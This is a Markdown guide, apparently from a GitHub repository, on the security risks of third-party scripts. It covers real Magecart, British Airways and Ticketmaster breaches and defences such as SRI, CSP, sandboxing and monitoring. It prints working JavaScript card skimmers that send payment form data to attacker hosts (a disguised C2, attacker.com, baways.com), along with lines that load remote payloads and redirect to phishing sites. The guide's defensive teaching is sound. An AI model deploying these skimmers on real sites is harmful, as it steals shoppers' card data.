


# Third-Party Script Security

> **Every `<script>` tag you add to your site hands that third-party full control over your users' browser sessions.**

---

## 🧠 What Is It? (Beginner Explanation)

When you build a website, you rarely write everything yourself. You embed:

- **Analytics**: Google Analytics, Mixpanel, Amplitude
- **Chat widgets**: Intercom, Zendesk, Drift
- **Payment SDKs**: Stripe.js, PayPal SDK, Braintree
- **A/B Testing**: Optimizely, LaunchDarkly
- **Tag Managers**: Google Tag Manager, Adobe Launch
- **Advertising**: Google Ads, Facebook Pixel
- **Customer Data Platforms**: Segment, mParticle

Every one of these is a `<script>` tag pointing to someone else's server.

**The problem**: A script tag doesn't get a limited guest pass. It gets a **master key**.

```
🏠 Your website = your house
🔑 Script tag   = giving a contractor a copy of EVERY key you own

The contractor can:
  ✓ Read everything in every room (DOM)
  ✓ Watch everything you type (keylogging)
  ✓ Take your wallet (steal cookies/tokens)
  ✓ Impersonate you (make requests on your behalf)
  ✓ Invite other people in (load more scripts)
  ✓ Change the locks (modify the DOM/forms)
```

You trust these vendors — but do you trust everyone who has ever worked at those companies? Everyone who can access their CDN? Every server in their infrastructure?

---

## 🏗️ How It Works (Technical Deep Dive)

### What a Third-Party Script Can Do

```javascript
// Everything a malicious (or compromised) third-party script can do:

// 1. Read all cookies (including session tokens)
document.cookie
// → "sessionid=abc123; csrf=xyz789; remember_me=..."

// 2. Read localStorage / sessionStorage (JWTs, user data)
localStorage.getItem('auth_token')
Object.entries(localStorage)

// 3. Capture every keystroke in real time
document.addEventListener('keyup', e => {
  sendToAttacker({ key: e.key, field: e.target.id });
});

// 4. Read all form field values (including hidden fields)
document.querySelectorAll('input, textarea, select').forEach(el => {
  sendToAttacker({ name: el.name, value: el.value });
});

// 5. Modify the DOM — change form action targets
document.getElementById('checkout-form').action = 'https://attacker.com/collect';

// 6. Make authenticated requests (CSRF — using your session cookie)
fetch('/api/transfer-money', {
  method: 'POST',
  credentials: 'include',  // includes your cookies
  body: JSON.stringify({ to: 'attacker', amount: 10000 })
});

// 7. Read the entire page source
document.documentElement.innerHTML

// 8. Load MORE scripts
var s = document.createElement('script');
s.src = 'https://attacker.com/stage2.js';
document.head.appendChild(s);

// 9. Steal clipboard contents
document.addEventListener('copy', e => {
  sendToAttacker({ clipboard: e.clipboardData.getData('text') });
});

// 10. Redirect users
window.location.href = 'https://phishing-site.com';
```

### The CDN Compromise Chain

```
Normal flow:
  User visits yoursite.com
    → Browser loads <script src="https://cdn.analytics.com/tracker.js">
    → Script runs, sends page views to analytics

Compromised flow:
  Attacker compromises cdn.analytics.com (DNS poisoning, account hack, BGP hijack)
    → Modifies tracker.js to add malicious payload
    → User visits yoursite.com
    → Browser loads MALICIOUS tracker.js from same URL
    → Script runs BOTH legitimate tracking AND malicious code
    → 10,000 sites loading this script now all exfiltrate user data
    → Takes 0.1 seconds; user sees nothing unusual
```

### Tag Manager as a Multiplier

Google Tag Manager (GTM) deserves special attention — it's a **script that loads scripts**:

```javascript
// One GTM tag can load unlimited other scripts
// An attacker who compromises your GTM container
// has compromised ALL pages that use it

// GTM container ID is often guessable (GTM-XXXXXXX)
// If your GTM account is compromised:
//   → Attacker adds new "Custom HTML" tag
//   → Publishes new container version
//   → Malicious code runs on all pages instantly
//   → No code deploy needed on your end

// The malicious custom HTML tag looks like:
<script>
// Skimmer injected via GTM
(function(){
  var target = document.querySelector('form[action*="checkout"]');
  if (!target) return;
  target.addEventListener('submit', function(){
    var data = {};
    target.querySelectorAll('input').forEach(function(el){
      data[el.name || el.id] = el.value;
    });
    navigator.sendBeacon('https://attacker.com/sk', JSON.stringify(data));
  });
})();
</script>
```

---

## 📊 Attack Flow Diagram



---

## 💥 Real-World Attacks

### 1. Magecart — Web Skimming at Scale

**Named after**: Group targeting Magento e-commerce platforms  
**Active since**: ~2015, peak activity 2018–present  
**Method**: Inject JavaScript payment card skimmer via compromised CDN or plugin

**How the skimmer works**:

```javascript
// Full Magecart-style skimmer (educational reconstruction)
(function() {
  'use strict';

  var C2 = 'https://google-analytics-cdn.com/collect';  // disguised C2

  // ── Method 1: Intercept form submission ──────────────────
  var _submit = HTMLFormElement.prototype.submit;
  HTMLFormElement.prototype.submit = function() {
    harvestForm(this);
    _submit.apply(this, arguments);
  };

  document.addEventListener('submit', function(e) {
    harvestForm(e.target);
  }, true);  // capture phase = runs before other handlers

  function harvestForm(form) {
    // Only target checkout/payment forms
    var action = (form.action || '').toLowerCase();
    var isPayment = /checkout|payment|billing|order|cart/.test(action) ||
                    form.querySelector('[name*="card"],[name*="credit"],[name*="cvv"]');
    if (!isPayment) return;

    var data = {};
    var inputs = form.querySelectorAll('input, select, textarea');
    inputs.forEach(function(el) {
      if (el.name || el.id) {
        data[el.name || el.id] = el.value;
      }
    });
    exfil(data);
  }

  // ── Method 2: Real-time keystroke capture for card fields ─
  document.addEventListener('input', function(e) {
    var el = e.target;
    var name = (el.name + el.id + el.placeholder + el.className).toLowerCase();
    if (/card|ccnum|credit|debit|cvv|cvc|expir/.test(name)) {
      exfil({ realtime_capture: name, value: el.value });
    }
  }, true);

  // ── Exfiltration via Image beacon (bypasses some CSPs) ───
  function exfil(data) {
    var encoded = btoa(JSON.stringify(data));
    // Use Image beacon to avoid CORS restrictions
    new Image().src = C2 + '?v=' + encoded;
    // Also try sendBeacon (works even if page unloads)
    if (navigator.sendBeacon) {
      navigator.sendBeacon(C2, JSON.stringify(data));
    }
  }

  // ── Obfuscation: only run on checkout pages ──────────────
  if (!/checkout|payment|billing/.test(window.location.href)) return;

})();
```

**Famous Magecart victims**:

| Target | Year | Method | Cards Stolen | Fine/Cost |
|--------|------|--------|--------------|-----------|
| British Airways | 2018 | Compromised CDN script | ~500,000 | £20M ICO fine |
| Ticketmaster | 2018 | Compromised Inbenta chatbot widget | ~40,000 | £1.25M fine |
| Newegg | 2018 | Compromised payment page | ~50,000 | — |
| OXO | 2018 | Third-party script compromise | Unknown | — |
| Forbes | 2019 | Forbes Magento store | Unknown | — |
| Macy's | 2019 | GTM-based skimmer | Unknown | — |
| Claire's | 2020 | Shopify app compromise | Unknown | — |
| Segway | 2022 | Magento compromise | Unknown | — |

---

### 2. British Airways Breach (2018) — Deep Dive

**CVE/Breach**: No CVE; ICO Case Reference COM0783542  
**Fine**: £20 million (reduced from £183M due to COVID)

**What happened**:
1. Attackers (believed to be Magecart Group 6) compromised BA's website.
2. Injected 22 lines of malicious JavaScript into `baggage claim` page.
3. Script harvested payment data from ba.com and sent to `baways.com` (attacker-controlled domain).

**The actual malicious script** (reconstructed from security research):
```javascript
// Injected into https://www.britishairways.com/
// The script was only ~22 lines — elegant and minimal

var FAKE_HOST = 'https://baways.com/api';  // Lookalike domain

// Intercept form submission on payment page
document.querySelector('form').addEventListener('submit', function() {
  var fields = [
    'pay_cc_holder_name',
    'pay_cc_number', 
    'pay_cc_expiry_month',
    'pay_cc_expiry_year',
    'pay_cc_cv2'        // CVV
  ];
  
  var stolen = { url: window.location.href };
  fields.forEach(function(id) {
    var el = document.getElementById(id);
    if (el) stolen[id] = el.value;
  });

  // Exfiltrate over HTTPS (looks legitimate in network logs!)
  var xhr = new XMLHttpRequest();
  xhr.open('POST', FAKE_HOST, true);
  xhr.setRequestHeader('Content-Type', 'application/json');
  xhr.send(JSON.stringify(stolen));
});
```

**Why it wasn't caught**:
- Exfiltrated over HTTPS (encrypted, looked legitimate).
- The domain `baways.com` was registered to resemble British Airways.
- No Content Security Policy was in place to restrict outbound connections.
- The modification was on a page loaded by many scripts — hard to notice one new one.

---

### 3. Ticketmaster (2018) — Third-Party Component Attack

**Method**: Attackers compromised **Inbenta** — a customer service chatbot SDK loaded on Ticketmaster's payment page.

```
Ticketmaster's mistake:
  → Loaded Inbenta's JS SDK on PAYMENT pages (not just support pages)
  → Inbenta's script had full DOM access to payment form
  → When Inbenta was compromised, attackers had Ticketmaster's payment data

Quote from Inbenta CEO:
  "Ticketmaster directly applied the script to a payment page, 
   without notifying our team... Had we known, we would have warned 
   them this was not the right way to use our product."
```

**Lesson**: Third-party vendors are often **unaware** their scripts are used on payment pages. Vendors design scripts for general use, not for PCI DSS scoped environments.

---

### 4. The Pirate Bay — Coinhive Cryptojacking (2017)

**Attack type**: Cryptojacking (not card stealing)

```javascript
// Coinhive script embedded by The Pirate Bay (and later by attackers on other sites)
// Mined Monero cryptocurrency using visitor's CPU

// Coinhive snippet (the legitimate API — later abused everywhere):
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  var miner = new CoinHive.Anonymous('SITE_KEY', {throttle: 0.3});
  miner.start();
</script>

// Attackers embedded this on compromised sites without owner knowledge
// Sites affected: Showtime, PolitiFact, LA Times, MakeMyTrip, government sites
```

**Coinhive shutdown in 2019** after Monero's hash rate dropped. But copycat services continue to exist.

---

### 5. Google Tag Manager Abuse

**Pattern**: Attackers who gain access to a GTM account can push malicious tags to production instantly without touching the actual codebase.

```
Attack flow:
1. Attacker phishes GTM account credentials (or finds them in leaked creds database)
2. Logs into GTM account
3. Creates new "Custom HTML" tag with malicious JS
4. Sets trigger: "All Pages" OR "Page URL contains /checkout"
5. Clicks "Publish"
6. Malicious code is now live on ALL pages within seconds
7. No git commit, no code review, no deployment pipeline — nothing

Detection is hard because:
  → GTM loads tags dynamically — they don't appear in your source code
  → Traditional SAST/DAST won't find it
  → Requires monitoring runtime behavior
```

---

## 🔎 How to Audit Third-Party Scripts

### Browser-Based Discovery

```javascript
// Run in browser DevTools console to find all third-party scripts

// Method 1: Performance API
var thirdParty = performance.getEntriesByType('resource')
  .filter(r => r.initiatorType === 'script')
  .map(r => ({ url: r.name, domain: new URL(r.name).hostname, size: r.transferSize }))
  .filter(r => r.domain !== location.hostname)
  .sort((a, b) => a.domain.localeCompare(b.domain));

console.table(thirdParty);

// Method 2: Document querySelectorAll
var scripts = Array.from(document.querySelectorAll('script[src]'))
  .map(s => s.src)
  .filter(src => !src.startsWith(location.origin));

console.log('External scripts:', scripts);

// Method 3: MutationObserver — catch dynamically injected scripts
var observer = new MutationObserver(function(mutations) {
  mutations.forEach(function(m) {
    m.addedNodes.forEach(function(node) {
      if (node.tagName === 'SCRIPT' && node.src) {
        console.warn('Dynamically loaded script:', node.src);
      }
    });
  });
});
observer.observe(document, { childList: true, subtree: true });
```

### Command-Line Discovery

```bash
# Using curl + grep to find all script tags
curl -s https://yoursite.com | grep -oP 'src="[^"]*"' | grep -v 'yoursite.com'

# Using Burp Suite Professional
# 1. Spider: Target → Site map → Spider this host
# 2. Filter requests: MIME type = script, JavaScript
# 3. Note all unique hostnames

# Using httpx (ProjectDiscovery)
cat urls.txt | httpx -silent -sr -srd ./responses/
grep -r 'script src' ./responses/ | grep -v 'yoursite.com'

# Using Playwright/Puppeteer for JavaScript-heavy sites
node -e "
const { chromium } = require('playwright');
(async () => {
  const browser = await chromium.launch();
  const page = await browser.newPage();
  const scripts = new Set();
  page.on('request', req => {
    if (req.resourceType() === 'script') {
      const url = new URL(req.url());
      if (url.hostname !== 'yoursite.com') scripts.add(url.hostname);
    }
  });
  await page.goto('https://yoursite.com/checkout');
  console.log([...scripts]);
  await browser.close();
})();
"

# SecurityHeaders.com — check CSP headers
curl -sI https://yoursite.com | grep -i content-security-policy

# Webbkoll — privacy/security analysis of third-party requests
# https://webbkoll.dataskydd.net/en

# Observatory by Mozilla — checks security headers
# https://observatory.mozilla.org
```

### Automated Third-Party Monitoring

```bash
# 1. Lighthouse — built into Chrome DevTools
# Audits → Best Practices → Third-party code

# 2. Request Map Generator
# https://requestmap.webperf.tools/
# Visual map of all third-party connections

# 3. Blacklight (The Markup)
# https://themarkup.org/blacklight
# Detects trackers, session recorders, keyloggers

# 4. Third-party web (data on third-party usage)
# https://www.thirdpartyweb.today/
```

---

## 🔒 Subresource Integrity (SRI)

SRI ensures a CDN-hosted script hasn't been tampered with. The browser **refuses** to execute it if the hash doesn't match.

```bash
# Generate SRI hash for a local file
openssl dgst -sha384 -binary jquery.min.js | openssl base64 -A
# → sha384-/LjQZzcpTw3On5/idZR5jW4/04SmgAE+jjECvQhxjDzQ

# Generate for a remote file
curl -s https://code.jquery.com/jquery-3.7.1.min.js | openssl dgst -sha384 -binary | openssl base64 -A

# Or use the online tool:
# https://www.srihash.org/
# https://report-uri.com/home/sri_hash
```

```html
<!-- SRI examples for common libraries -->

<!-- jQuery 3.7.1 -->
<script 
  src="https://code.jquery.com/jquery-3.7.1.min.js"
  integrity="sha384-1H217gwSVyLSIfaLxHbE7dRb3v4mYCKbpQvzx0cegeju1MVsGrX5xXxaYymDFwe"
  crossorigin="anonymous">
</script>

<!-- Bootstrap 5.3.2 CSS -->
<link 
  rel="stylesheet"
  href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css"
  integrity="sha384-T3c6CoIi6uLrA9TneNEoa7RxnatzjcDSCmG1MXxSR1GAsXEV/Dwwykc2MPK8M2HN"
  crossorigin="anonymous">

<!-- Bootstrap 5.3.2 JS -->
<script 
  src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/js/bootstrap.bundle.min.js"
  integrity="sha384-C6RzsynM9kWDrMNeT87bh95OGNyZPhcTNXj1NW7RuBCsyN/o0jlpcV8Qyq46cDfL"
  crossorigin="anonymous">
</script>

<!-- Font Awesome 6.4.0 -->
<link 
  rel="stylesheet"
  href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.4.0/css/all.min.css"
  integrity="sha512-iecdLmaskl7CVkqkXNQ/ZH/XLlvWZOJyj7Yy7tcenmpD1ypASozpmT/E0iPtmFIB46ZmdtAc9eNBvH0H/ZpiBw=="
  crossorigin="anonymous">

<!-- If hash mismatch: browser logs error and refuses to execute -->
<!-- "Subresource Integrity: The resource ... has an integrity attribute,
      but the file's hash doesn't match." -->
```

**SRI Limitations**:
```
⚠️ SRI does NOT help when:
  - Script is loaded dynamically after page load (via document.createElement)
  - Script serves different content per user-agent (A/B testing platforms)
  - CDN URL includes a version query param that changes frequently
  - The ORIGINAL script loads other scripts (common with analytics/GTM)

✅ SRI DOES help when:
  - Static library files (jQuery, Bootstrap, Font Awesome)
  - You control when updates happen
  - You verify the hash before updating it
```

---

## 🛡️ Content Security Policy (CSP)

CSP is the most powerful defense against malicious third-party script activity.

### Basic CSP Header

```nginx
# nginx configuration
add_header Content-Security-Policy "
  default-src 'self';
  script-src 'self' https://cdn.trusted.com;
  style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
  font-src 'self' https://fonts.gstatic.com;
  img-src 'self' data: https:;
  connect-src 'self' https://api.yoursite.com;
  frame-ancestors 'none';
  form-action 'self';
  base-uri 'self';
  object-src 'none';
" always;
```

### Payment Page CSP (PCI DSS Compliant)

```nginx
# Maximum restriction for checkout/payment pages
# PCI DSS 4.0 requires script inventory + authorization for payment pages

add_header Content-Security-Policy "
  default-src 'none';
  
  script-src 
    'self'
    https://js.stripe.com          # Stripe.js ONLY
    'sha256-abc123...'             # hash of any inline script
    ;
  
  style-src 
    'self' 
    'sha256-def456...'             # hash of inline styles
    ;
  
  frame-src 
    https://js.stripe.com          # Stripe iframe for card fields
    ;
  
  connect-src 
    'self'
    https://api.stripe.com
    ;
  
  img-src 
    'self' 
    data:                          # for CSS data URIs
    ;
  
  font-src 'self';
  object-src 'none';
  base-uri 'none';
  form-action 'self';
  frame-ancestors 'none';
  
  report-uri https://yoursite.com/csp-violations;
  report-to csp-endpoint;
" always;
```

### CSP Reporting

```javascript
// Express.js — CSP violation endpoint
app.post('/csp-violations', express.json({ type: 'application/csp-report' }), (req, res) => {
  const report = req.body['csp-report'];
  
  console.error('CSP Violation:', {
    blockedURI:  report['blocked-uri'],
    violatedDirective: report['violated-directive'],
    documentURI: report['document-uri'],
    originalPolicy: report['original-policy'],
    referrer: report['referrer'],
    timestamp: new Date().toISOString()
  });
  
  // Alert if a new domain appears — could indicate compromise
  // Send to SIEM/Datadog/Splunk
  
  res.status(204).end();
});
```

### CSP Gotchas

```
❌ Common CSP mistakes:

1. 'unsafe-inline' in script-src
   → Defeats the purpose — allows inline JS including injected skimmers

2. 'unsafe-eval' in script-src  
   → Required by some old frameworks but allows eval() exploitation

3. Too-broad wildcards: script-src *.googleapis.com
   → Many attacker-controlled endpoints exist under broad wildcards

4. Not covering all pages — having CSP only on homepage, not checkout

5. Not monitoring the report-uri — CSP without reports is flying blind

6. data: in script-src
   → Allows: <script src="data:text/javascript,alert(1)"> 

✅ Use nonces for inline scripts (better than 'unsafe-inline'):

<script nonce="r4nd0m-n0nc3-per-request">
  // This inline script is allowed
</script>

Content-Security-Policy: script-src 'nonce-r4nd0m-n0nc3-per-request'
```

---

## 🧱 iframe Sandboxing for Untrusted Widgets

```html
<!-- Sandbox isolates the widget from your page -->
<!-- It CANNOT access your cookies, DOM, or localStorage -->

<iframe 
  src="https://widget.third-party.com/chat"
  sandbox="allow-scripts allow-same-origin allow-popups"
  <!-- Sandbox flags explained:
    allow-scripts         → allows JS execution inside iframe
    allow-same-origin     → allows iframe to have an origin (needed for APIs)
    allow-popups          → allows window.open (some widgets need this)
    
    NOT included (blocked):
    allow-forms           → cannot submit forms
    allow-top-navigation  → cannot redirect parent page
    allow-same-origin (without allow-scripts) → cannot access parent cookies
  -->
  allow="payment"         <!-- Permissions Policy -->
  referrerpolicy="no-referrer"
  loading="lazy">
</iframe>

<!-- Stripe Elements example — card data NEVER touches your DOM -->
<!-- The card number input lives inside Stripe's iframe, not yours -->
<div id="card-element"><!-- Stripe mounts iframe here --></div>
<script src="https://js.stripe.com/v3/"
  integrity="sha384-..."
  crossorigin="anonymous">
</script>
```

---

## 🔍 Detecting Compromised Scripts In Production

### Real User Monitoring (RUM) for Security

```javascript
// Monitor for unexpected network requests from your pages
// Inject this monitoring script BEFORE any third-party scripts

(function() {
  var ALLOWED_DOMAINS = [
    'yoursite.com',
    'cdn.stripe.com',
    'www.google-analytics.com',
    'js.stripe.com'
  ];
  
  // Monitor fetch() calls
  var _fetch = window.fetch;
  window.fetch = function(url) {
    var domain = new URL(url, location.href).hostname;
    if (!ALLOWED_DOMAINS.some(d => domain.endsWith(d))) {
      console.error('[SECURITY] Unexpected fetch to:', domain);
      // Send alert to your monitoring endpoint
      _fetch('/security-alert', {
        method: 'POST',
        body: JSON.stringify({ type: 'unexpected_fetch', domain, url, timestamp: Date.now() })
      }).catch(() => {});
    }
    return _fetch.apply(this, arguments);
  };

  // Monitor XMLHttpRequest
  var _open = XMLHttpRequest.prototype.open;
  XMLHttpRequest.prototype.open = function(method, url) {
    try {
      var domain = new URL(url, location.href).hostname;
      if (!ALLOWED_DOMAINS.some(d => domain.endsWith(d))) {
        console.error('[SECURITY] Unexpected XHR to:', domain);
      }
    } catch (_) {}
    return _open.apply(this, arguments);
  };
  
  // Monitor dynamically added scripts
  var observer = new MutationObserver(function(mutations) {
    mutations.forEach(function(m) {
      m.addedNodes.forEach(function(node) {
        if (node.tagName === 'SCRIPT' && node.src) {
          var domain = new URL(node.src).hostname;
          if (!ALLOWED_DOMAINS.some(d => domain.endsWith(d))) {
            console.error('[SECURITY] Unexpected script injection:', node.src);
            node.remove(); // Optionally block it
          }
        }
      });
    });
  });
  observer.observe(document.documentElement, { childList: true, subtree: true });
})();
```

### Automated Scanning

```bash
# 1. Scan for new/changed third-party resources over time
# Script to compare current scripts vs baseline
curl -s https://yoursite.com/checkout \
  | grep -oP 'src="[^"]*"' \
  | sort > current_scripts.txt

diff baseline_scripts.txt current_scripts.txt
# Any new line = potentially new (or injected) script!

# 2. Check for script changes using file hashes
SCRIPT_URL="https://cdn.thirdparty.com/widget.js"
CURRENT_HASH=$(curl -s "$SCRIPT_URL" | sha256sum | cut -d' ' -f1)
KNOWN_HASH="abc123def456..."  # stored from last verified state

if [ "$CURRENT_HASH" != "$KNOWN_HASH" ]; then
  echo "ALERT: Script hash changed! Previous: $KNOWN_HASH Current: $CURRENT_HASH"
  # Send alert, block script via CSP, notify security team
fi

# 3. Automated with Probely / OWASP ZAP
# zaproxy -cmd -quickurl https://yoursite.com -quickout report.html

# 4. Continuous third-party script monitoring services:
#    - Feroot
#    - Source Defense  
#    - Jscrambler
#    - Reflectiz
#    - c/side
```

---

## 📋 Third-Party Script Risk Classification

| Category | Example Tools | Data Access Risk | Recommended Controls |
|----------|--------------|------------------|---------------------|
| **Analytics** | Google Analytics 4, Mixpanel, Amplitude | Page URLs, clicks, scroll depth | SRI + CSP connect-src restriction |
| **Session Recording** | Hotjar, FullStory, LogRocket | EVERYTHING (keystrokes, forms) | EXCLUDE from payment pages; mask sensitive fields |
| **Chat Widgets** | Intercom, Zendesk, Drift | Full DOM access | iframe sandbox; exclude from payment pages |
| **Tag Managers** | Google Tag Manager, Adobe Launch | EVERYTHING (loads other scripts) | Strict GTM permissions; audit container regularly |
| **Payment SDKs** | Stripe.js, Braintree | Only what you give it | iframe isolation; SRI; PCI DSS scope minimization |
| **Ad Networks** | Google Ads, Facebook Pixel | Browsing behavior | CSP; don't load on payment pages |
| **A/B Testing** | Optimizely, VWO | Full DOM access | Review test code; exclude payment pages |
| **Fonts** | Google Fonts, Adobe Fonts | Minimal (CSS/fonts) | SRI; consider self-hosting |
| **Maps** | Google Maps, Mapbox | Location data | Restrict to specific pages only |
| **Video** | YouTube embed, Vimeo | Minimal (iframe) | sandbox attribute |

---

## ⚙️ Permissions Policy (formerly Feature Policy)

Restrict what browser features third-party scripts can access:

```html
<!-- In HTTP header or <iframe> allow attribute -->
Permissions-Policy: 
  camera=(),               /* no access to camera */
  microphone=(),           /* no access to microphone */
  geolocation=(self),      /* only your origin can request location */
  payment=(self "https://js.stripe.com"),  /* only Stripe gets payment API */
  usb=(),                  /* no USB access */
  bluetooth=(),            /* no Bluetooth */
  clipboard-read=(),       /* can't read clipboard */
  clipboard-write=(self)   /* only your origin can write clipboard */
```

```nginx
# nginx — add both headers
add_header Permissions-Policy "camera=(), microphone=(), geolocation=(self)";
add_header Referrer-Policy "strict-origin-when-cross-origin";
```

---

## 🛡️ Mitigation Checklist

### 1. Script Inventory

```bash
# Quarterly audit checklist:

□ List ALL third-party scripts loaded on each page type
  → homepage, product page, checkout, account, admin
  
□ Document WHY each script is loaded (business justification)

□ Verify script URLs still point to legitimate vendor domains

□ Check if any scripts are loaded on pages they shouldn't be
  (e.g., session recording tools on payment pages)
  
□ Remove any scripts that are no longer in use
```

### 2. Vendor Security Assessment

```
Questions to ask third-party vendors:
  □ Do you have SOC 2 Type II certification?
  □ Do you have a vulnerability disclosure / bug bounty program?
  □ How quickly do you notify customers of security incidents?
  □ Can I use SRI with your script? (versioned, stable URLs)
  □ Do you support CSP-compatible delivery (nonces/hashes)?
  □ Do your scripts load other scripts? (chained third parties)
  □ Where is data processed/stored? (GDPR implications)
```

### 3. Implementation Controls

```html
<!-- Self-host critical scripts to remove CDN dependency -->
<!-- Download and serve from your own origin -->
<script src="/static/js/stripe-3.7.1.min.js"></script>
<!-- Add to your deployment pipeline: verify hash before deploy -->

<!-- Strict CSP -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'nonce-{RANDOM}';">

<!-- SRI for all CDN resources -->
<script src="https://cdn.example.com/lib.js"
        integrity="sha384-HASH"
        crossorigin="anonymous"></script>

<!-- Sandbox untrusted iframes -->
<iframe src="https://widget.com" sandbox="allow-scripts"></iframe>
```

### 4. Incident Response for Third-Party Compromise

```
If a third-party vendor is compromised:

Immediate (0-30 min):
  1. Remove or block the compromised script via CSP/WAF
  2. Notify your security/engineering team
  3. Preserve logs (network traffic, CSP violation reports)
  4. Notify payment processor if payment data may be affected

Short-term (1-24 hours):
  5. Determine scope: which pages loaded the script? How long?
  6. Pull network logs: what did the script connect to?
  7. Assess what data was accessible (cookies, form data, DOM)
  8. Contact vendor for their incident timeline

Legal/compliance (24-72 hours):
  9. If EU users affected → GDPR 72-hour breach notification
  10. If payment cards → PCI DSS incident response, notify acquirer
  11. Consult legal counsel on notification requirements
  12. Prepare customer notification if required
```

---

## 🔭 Mermaid: Third-Party Threat Model



---

## 📚 References

- [OWASP — Third Party JavaScript Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Third_Party_Javascript_Management_Cheat_Sheet.html)
- [MDN — Subresource Integrity](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity)
- [MDN — Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [PCI DSS v4.0 — Requirement 6.4.3 (Script Authorization for Payment Pages)](https://www.pcisecuritystandards.org/document_library/)
- [RiskIQ — Magecart Research](https://www.riskiq.com/research/magecart/)
- [British Airways ICO Penalty Notice (2020)](https://ico.org.uk/media/action-weve-taken/mpns/2618350/ba-penalty-notice-20201016.pdf)
- [Ticketmaster ICO Penalty](https://ico.org.uk/about-the-ico/media-centre/news-and-blogs/2020/11/ico-fines-ticketmaster-uk-limited-125million-for-failing-to-protect-customers-payment-details/)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [SecurityHeaders.com](https://securityheaders.com)
- [Report URI — CSP reporting service](https://report-uri.com)
- [Feroot — Third-Party Script Security Monitoring](https://feroot.com)
- [The Markup Blacklight — Privacy Inspector](https://themarkup.org/blacklight)
- [requestmap.webperf.tools — Visual third-party map](https://requestmap.webperf.tools/)
